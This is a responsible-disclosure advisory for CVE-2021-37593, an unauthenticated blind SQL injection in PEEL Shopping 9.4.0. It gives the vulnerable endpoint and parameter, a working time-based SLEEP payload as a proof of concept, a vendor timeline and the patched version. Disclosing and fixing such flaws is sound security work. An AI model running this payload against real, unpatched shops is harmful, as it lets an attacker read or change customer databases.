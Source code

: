 
**Title:** Unauthenticated Blind SQL Injection vulnerability In PEEL Shopping 

**Product:** PEEL Shopping

**Vulnerable Version:** 9.4.0 

**Fixed Version:** 9.4.0.1 

**CVE ID:** CVE-2021-37593 

**Impact:** Critical 

**CVSS v3 Score:** 9.1 - CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Homepage:** https://www.peel-shopping.com/

**Date of Discovery:** 10 July 2021

**Author:** Mohammad Faisal Sammio | NetbyteSEC


----

## Vendor/product description:

*"PEEL SHOPPING is a free ecommerce CMS in PHP / MySQL, that is to say a a modern and safety management tool that lets you manage your product catalog, the text on your website and everything else from a single, simple and efficient administrative interface. Since 2004, PEEL brings innovation and reliability to the world of e-commerce by offering tailored solutions to create complete and simple online shops at suitable prices for everyone."
Source: https://www.peel-shopping.com/*



## Vulnerability overview:

PEEL Shopping version 9.4.0 allows remote SQL injection. A public user/guest (unauthenticated) can inject a malicious SQL query in order to affect the execution of predefined SQL commands. Upon a successful SQL injection attack, an attacker can read sensitive data from the database and possibly modify database data.



## Proof Of Concept:
 
- The following concept could be used to perform blind SQL injection attack:

      METHOD : GET
      PARAMETER : id
      PAYLOAD : (SELECT * FROM (SELECT(SLEEP(5)))NBSX)
      URL : http://localhost/peel-shopping_9.4.0/achat/produit_details.php?id=[SQL-INJECTION]

- As a proof of concept for exploiting the blind SQL injection, requesting the following URL will cause a time delay.

      http://localhost/peel-shopping_9.4.0/achat/produit_details.php?id=(SELECT * FROM (SELECT(SLEEP(5)))NBSX)


## Tested Versions: 

The vulnerability has been verified to exist in the PEEL Shopping version 9.4.0. It was found in this version, which was updated and released below a week just prior to the discovery.


## Vendor Contact Timeline:

    2021-07-10: Contacting vendor through email.
    2021-07-12: Request update from vendor, sending advisory draft and proof of concept.
    2021-07-13: Vendor acknowledge and confirms security issue.
    2021-07-14: Vendor response with security patches available on their website.
    2021-07-26: Public release of security advisory
 
## Solution:

Update to latest version 9.4.0.1 on their website.

https://www.peel-shopping.com/modules/telechargement/telecharger.php?id=7


